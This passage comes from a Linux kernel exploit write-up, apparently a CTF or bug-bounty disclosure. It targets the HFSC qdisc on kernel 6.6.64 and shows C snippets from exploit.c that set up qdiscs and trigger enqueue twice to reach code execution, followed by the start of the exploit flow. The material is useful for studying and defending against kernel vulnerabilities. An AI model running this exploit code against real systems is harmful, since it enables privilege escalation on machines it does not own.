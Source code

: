### Step8: Because we need `->enqueue()` to success to trigger `->dequeue()`, Step8 ensure further `->enqueue()` will return `NET_XMIT_SUCCESS` by perform the following things:
- Create `pfifo_head_drop` qdisc with `sch->limit == 0xFFFFFFFF` and linked this qdisc with root class of `Victim_Qdisc`. You can choose other qdisc types here.
[[exploit.c#L1544]](../exploit/lts-6.6.64/exploit.c#L1544)
```c
struct tc_fifo_qopt pfifo_head_drop_qopt = { .limit = 0xFFFFFFFF };
create_pfifo_head_drop_qdisc(
	code_execution_primitive->route_socket,
	code_execution_primitive->network_interface_ifindex,
	code_execution_primitive->qdisc_A_handle,
	code_execution_primitive->qdisc_C_handle,
	&pfifo_head_drop_qopt
);
```
- Configure `Victim_Qdisc` to route enqueued packet to qdisc linked with root class.
[[exploit.c#L1552]](../exploit/lts-6.6.64/exploit.c#L1552)
```c
change_hfsc_qdisc_route(
	code_execution_primitive->route_socket,
	code_execution_primitive->network_interface_ifindex,
	TC_H_ROOT,
	code_execution_primitive->qdisc_A_handle,
	code_execution_primitive->qdisc_A_handle
);
```

## Describe function `code_execution_primitive_trigger()`
[[exploit.c#L1561]](../exploit/lts-6.6.64/exploit.c#L1561)
```c
void code_execution_primitive_trigger(struct code_execution_primitive *code_execution_primitive)
{
	trigger_qdisc_enqueue(
		code_execution_primitive->raw_packet_socket,
		code_execution_primitive->network_interface_ifindex
	);
	trigger_qdisc_enqueue(
		code_execution_primitive->raw_packet_socket,
		code_execution_primitive->network_interface_ifindex
	);
}
```

- Trigger `->enqueue()` 2 times.
- First time will lead to `qlen == 0` and `hfsc_dequeue()` will return early.
- Second time, `qlen == 1` and `hfsc_dequeue()` will lead to code execution.

# Exploit flow
With the primitives in hand, the exploit flow look likes:
- Save the registers state to return from kernel space to user space
[[exploit.c#L1769]](../exploit/lts-6.6.64/exploit.c#L1769)
```c
save_state();
```
